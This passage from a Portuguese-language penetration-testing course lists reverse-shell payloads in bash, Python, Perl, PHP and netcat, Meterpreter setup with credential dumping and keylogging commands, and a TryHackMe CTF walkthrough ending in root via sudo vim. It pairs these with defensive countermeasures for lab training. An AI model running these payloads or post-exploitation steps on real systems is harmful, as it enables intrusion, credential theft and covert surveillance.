```bash
# Netcat clássico (sempre primeiro)
nc -lvnp 4444

# pwncat (mais poderoso: autocompletar, upload, estabilização automática)
pip3 install pwncat-cs
pwncat-cs -l -p 4444
```

### Payloads de Reverse Shell

#### Bash (Linux, mais confiável)
```bash
bash -i >& /dev/tcp/192.168.56.100/4444 0>&1
```

#### Python 3 (multiplataforma)
```bash
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.56.100",4444));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);p=subprocess.call(["/bin/bash","-i"])'
```

#### Python 2 (sistemas legados)
```bash
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.56.100",4444));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"])'
```

#### Netcat (quando disponível com flag -e)
```bash
nc -e /bin/bash 192.168.56.100 4444
```

#### PHP (contexto web)
```php
<?php system("bash -c 'bash -i >& /dev/tcp/192.168.56.100/4444 0>&1'"); ?>
```

#### Perl (Linux/Mac)
```perl
perl -e 'use Socket;$i="192.168.56.100";$p=4444;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/bash -i");};'
```

### Estabilizar Shell (Upgrade para TTY Interativo)

Uma shell básica não tem autocompletar, histórico, nem Ctrl+C funcional. Para estabilizar:

```bash
# Dentro do reverse shell obtido:
# Passo 1: Spawn de pseudo-terminal Python
python3 -c 'import pty; pty.spawn("/bin/bash")'
# (ou: python -c 'import pty; pty.spawn("/bin/bash")')

# Passo 2: Enviar para background
Ctrl+Z

# Passo 3: No Kali, ajustar terminal
stty raw -echo; fg

# Passo 4: De volta na shell do alvo
export TERM=xterm
export SHELL=bash

# Agora você tem: Ctrl+C, tab completion, setas, histórico
```

### Reverse Shell via Metasploit (Meterpreter)

O **Meterpreter** é um payload avançado do Metasploit que roda em memória (sem arquivo em disco), cifra comunicação com TLS e oferece funcionalidades ricas:

```bash
# 1. Configurar handler para receber Meterpreter
msf6 > use exploit/multi/handler
msf6 exploit(handler) > set payload linux/x86/meterpreter/reverse_tcp
msf6 exploit(handler) > set LHOST 192.168.56.100
msf6 exploit(handler) > set LPORT 4444
msf6 exploit(handler) > run -j  # -j: rodar em background

# 2. Gerar payload Meterpreter para upload no alvo
msfvenom -p linux/x86/meterpreter/reverse_tcp \
  LHOST=192.168.56.100 LPORT=4444 \
  -f elf -o shell.elf

# 3. Após conexão, comandos Meterpreter:
meterpreter > sysinfo
meterpreter > getuid
meterpreter > ps
meterpreter > upload /caminho/local /caminho/remoto
meterpreter > download /etc/shadow /tmp/shadow_dump
meterpreter > shell        # Entrar em shell do sistema
meterpreter > hashdump     # Dump de hashes (requer root)
meterpreter > screenshot   # Captura de tela
meterpreter > keyscan_start  # Iniciar keylogger
meterpreter > run post/linux/gather/enum_system  # Enumeração pós-exploração
```

**Defesa contra reverse shells:**
- **Egress filtering**: restringir conexões de saída no firewall (somente portas/destinos necessários)
- **EDR (Endpoint Detection and Response)**: detectar comportamento de shell reversa (processo filho inesperado, conexão de /bin/bash para IP externo)
- **Análise de tráfego de rede**: NetFlow/IDS com regras para `/dev/tcp`, `bash -i`, payloads em base64
- **AppArmor / SELinux**: restringir quais programas podem abrir conexões de rede
- **HIDS** (Tripwire, AIDE): detectar novos binários ou alterações em arquivos de sistema

---

## 🏴 Prática em CTF: TryHackMe e HackTheBox

Os CTFs (Capture The Flag) são a melhor forma de praticar exploração em ambiente seguro e legalizado. Plataformas como **TryHackMe (THM)** e **HackTheBox (HTB)** oferecem máquinas vulneráveis com flags a capturar.

### Metodologia Padrão para Máquina CTF



### Checklist de Enumeração Inicial

```bash
# 1. Varredura de portas completa
nmap -sC -sV -p- --min-rate 5000 <IP_alvo>

# 2. Se HTTP/HTTPS: enumerar diretórios
gobuster dir -u http://<IP_alvo> -w /usr/share/wordlists/dirb/common.txt -x php,html,txt

# 3. Se SMB (445): enumerar compartilhamentos
enum4linux -a <IP_alvo>
smbclient -L //<IP_alvo>

# 4. Se HTTP: varredura de vulnerabilidades web
nikto -h http://<IP_alvo>

# 5. Se FTP (21): tentar login anônimo
ftp <IP_alvo>
# user: anonymous, pass: qualquer@email.com

# 6. Banner grabbing manual
nc <IP_alvo> <porta>
```

### Exemplo: Máquina "Simple CTF" no TryHackMe

Esta é uma máquina gratuita no TryHackMe, ideal para iniciantes. Demonstra a metodologia completa.

```bash
# Fase 1: Recon
nmap -sC -sV 10.10.x.x
# Resultado: porta 21 (FTP, anon login OK), porta 80 (Apache), porta 2222 (SSH)

# Fase 2: Enumerar web
gobuster dir -u http://10.10.x.x -w /usr/share/wordlists/dirb/common.txt
# Encontra: /simple (CMS Made Simple)

# Fase 3: Identificar versão do CMS
# Acesse http://10.10.x.x/simple/ e procure versão no rodapé
# Ex: CMS Made Simple v2.2.8

# Fase 4: Buscar exploit
searchsploit cms made simple 2.2.8
# CVE-2019-9053: SQL Injection Time-Based Blind

# Fase 5: Exploitar SQLi para obter credenciais
# (usar exploit do ExploitDB ou sqlmap)
python2 exploit.py -u http://10.10.x.x/simple/ --crack -w /usr/share/wordlists/rockyou.txt

# Fase 6: SSH com credenciais obtidas
ssh mitch@10.10.x.x -p 2222
# Senha encontrada no exploit

# User flag
cat /home/mitch/user.txt

# Fase 7: Escalada de privilégio
sudo -l
# (mitch) NOPASSWD: /usr/bin/vim

# Escalada via vim (GTFOBins)
sudo vim -c ':!/bin/bash'
id
# uid=0(root)

# Root flag
cat /root/root.txt
```

> [!tip] GTFOBins: Escalada de Privilégio via Binários SUID/sudo
> O site [gtfobins.github.io](https://gtfobins.github.io) cataloga como usar binários Unix para escalar privilégios quando executados com sudo ou com bit SUID. Sempre consultar após obter shell com usuário comum.

> [!example] 🧪 Atividade 3: Capturar Flag em Máquina CTF
>
> **Objetivo:** Completar a máquina "Basic Pentesting" no TryHackMe, documentando cada passo e obtendo as flags de user e root.
>
> **Link:** [tryhackme.com/room/basicpentestingjt](https://tryhackme.com/room/basicpentestingjt) (gratuita)
>
> **Passo 1: Conectar à VPN do TryHackMe**
> ```bash
> sudo openvpn /caminho/para/seuusuario.ovpn
> ```
>
> **Passo 2: Recon**
> ```bash
> nmap -sC -sV <IP_maquina>
> # Anote todos os serviços e versões encontrados
> ```
>
> **Passo 3: Enumerar serviços**
> ```bash
> # HTTP: gobuster ou nikto
> gobuster dir -u http://<IP> -w /usr/share/wordlists/dirb/common.txt
>
> # SMB: enum4linux
> enum4linux -a <IP>
> ```
>
> **Passo 4: Explorar**
> Identifique o vetor de ataque (serviço vulnerável, SQLi, credencial fraca) e aplique a técnica correspondente (Metasploit, sqlmap, Hydra, exploit manual).
>
> **Passo 5: Capturar flags**
> ```bash
> cat /home/*/user.txt
> cat /root/root.txt
> ```
>
> **Prova de sucesso:** Screenshot do terminal mostrando a flag de root obtida + o comando `id` confirmando `uid=0(root)`. Documente todos os CVEs, ferramentas e comandos usados.

---

## 🛡️ Defesa em Profundidade: Resumo por Técnica

| Técnica de Ataque | Ferramenta | Exemplo de Payload | Contramedida Principal |
|-------------------|------------|--------------------|------------------------|
| Exploração de serviço vulnerável | Metasploit | `use exploit/unix/ftp/vsftpd_234_backdoor` | Patch/atualização + desabilitar serviços desnecessários |
| SQL Injection | sqlmap | `sqlmap -u URL --cookie=... --dbs` | Prepared Statements + WAF |
| Brute Force SSH/FTP | Hydra | `hydra -l root -P rockyou.txt ssh://IP` | MFA + fail2ban + rate limiting |
| Brute Force Web | Hydra / Burp Intruder | `hydra ... http-post-form "..."` | CAPTCHA + account lockout + MFA |
| Reverse Shell via RCE | Netcat / pwncat | `bash -i >& /dev/tcp/IP/4444 0>&1` | Egress filtering + EDR + AppArmor |
| Meterpreter (in-memory) | Metasploit msfvenom | `msfvenom -p linux/x86/meterpreter/...` | EDR com análise comportamental |
| XSS | Burp Suite / manual | `<script>alert(1)</script>` | CSP + escape de saída |
| Path Traversal | Burp Suite | `?file=../../../../etc/passwd` | Validação de path + chroot |

---

> [!note] 📚 Fontes (2026)
>
> - **vsftpd 2.3.4 Backdoor:** [GitHub maryamirfan18 vsftpd-metasploit-exploitation](https://github.com/maryamirfan18/vsftpd-metasploit-exploitation) | [Metasploitable 2 Exploitability Guide (Rapid7)](https://docs.rapid7.com/metasploit/metasploitable-2-exploitability-guide/)
> - **Metasploitable 2 Samba e outros:** [Hands-On Exploitation DEV Community](https://dev.to/seifeldienahmad/hands-on-exploitation-with-metasploitable2-from-scanning-to-mitigation-2h5k) | [Metasploitable Security Training Guide 2026](https://subrosacyber.com/en/blog/metasploitable-training-guide)
> - **sqlmap no DVWA:** [Learning SQL Injection with DVWA and sqlmap](https://medium.com/@networkhaz/learning-sql-injection-with-dvwa-and-sqlmap-a-hands-on-guide-f63d53c136be) | [SQLMap Guide Network Intelligence](https://www.networkintelligence.ai/blogs/from-sql-injection-to-0wnage-using-sqlmap/)
> - **Hydra Brute Force:** [How to Use Hydra (FreeCodeCamp)](https://www.freecodecamp.org/news/how-to-use-hydra-pentesting-tutorial/) | [Brute Force HTTP Basic Authentication](https://notes.benheater.com/books/hydra/page/brute-force-http-basic-authentication-with-hydra)
> - **Reverse Shells:** [Reverse Shell Cheat Sheet 2026 OffSecKit](https://offseckit.com/blog/reverse-shell-cheat-sheet) | [pentestmonkey Reverse Shell Cheat Sheet](https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet) | [Upgrading Shells to TTY (ropnop)](https://blog.ropnop.com/upgrading-simple-shells-to-fully-interactive-ttys/)
> - **Burp Suite e OWASP Top 10:** [OWASP Top 10 DVWA Burp Suite Guide](https://gist.github.com/aw-junaid/ba23240a38c5bdaa14c6c39b118441d1) | [PortSwigger: Using Burp for OWASP Top Ten](https://portswigger.net/support/using-burp-to-test-for-the-owasp-top-ten)
> - **TryHackMe walkthroughs:** [Basic Pentesting THM Walkthrough](https://infosecwriteups.com/basic-pentesting-walkthrough-solving-the-tryhackme-lab-235af4cf8d3b) | [Simple CTF Walkthrough](https://medium.com/@hughbrown123/walk-through-tryhackme-simple-ctf-2260147f972c)
> - **Lei 12.737/2012 (Art. 154-A CP):** [Planalto.gov.br L12737](https://www.planalto.gov.br/ccivil_03/_ato2011-2014/2012/lei/l12737.htm) | [Jusbrasil Art. 154-A CP](https://www.jusbrasil.com.br/topicos/28004011/artigo-154a-do-decreto-lei-n-2848-de-07-de-dezembro-de-1940)
> - **GTFOBins:** [gtfobins.github.io](https://gtfobins.github.io)
